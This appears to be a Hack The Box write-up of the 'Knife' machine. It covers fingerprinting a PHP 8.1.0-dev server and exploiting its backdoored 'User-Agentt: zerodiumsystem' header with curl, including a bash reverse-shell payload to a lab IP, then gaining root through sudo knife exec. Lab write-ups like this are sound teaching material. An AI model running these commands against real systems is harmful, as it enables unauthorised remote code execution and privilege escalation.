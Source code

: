 ```yaml
---
layout: post
title: HTB Machine - Knife
subtitle: Writeup
cover-img: /assets/img/Scifi.1920x1080.jpg
thumbnail-img: /assets/img/Scifi.1920x1080.jpg
share-img: /assets/img/Scifi.1920x1080.jpg
tags: [ HTB, Hack the Box]
---
```


#2 ports are open:22 and 80. Webpage is static no interesting stuff.  

whatweb http://10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]

Ubuntu Focal.

# there is vuln on the PHP/8.1.0-dev. The user-agent can be modified to execute code. 

#https://www.exploit-db.com/exploits/49933
#there is a python script (in exploit folder) but basically the line with zerodium is the culprit. It can be done with curl too

#poc 
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text

#exploit
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.2/4444 0>&1\"');" | html2text

#set a netcat and gain access to the machine. Set terminal to taste. check release
lsb_release -a

#no access to /root folder. id shows we are not in a priviledge group. sudo -l says that we can execute knife as a root without pass. Go to gtfobins to see if soemthing comes up with knife and it does. 

sudo knife exec -E 'exec "/bin/sh"'
